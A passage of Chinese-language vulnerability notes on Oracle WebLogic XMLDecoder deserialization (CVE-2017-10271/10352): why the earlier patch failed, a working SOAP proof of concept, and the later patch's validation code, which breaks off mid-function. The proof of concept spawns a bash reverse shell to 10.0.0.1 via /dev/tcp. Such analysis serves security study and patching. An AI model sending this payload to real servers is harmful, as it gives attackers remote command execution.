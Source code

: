 ```
```
限制了object的使用

#### CVE-2017-10271&CVE-2017-10352
##### 漏洞原因
只限制了object。
未new, method, void，array等。
##### poc
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
##### 补丁
```
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
```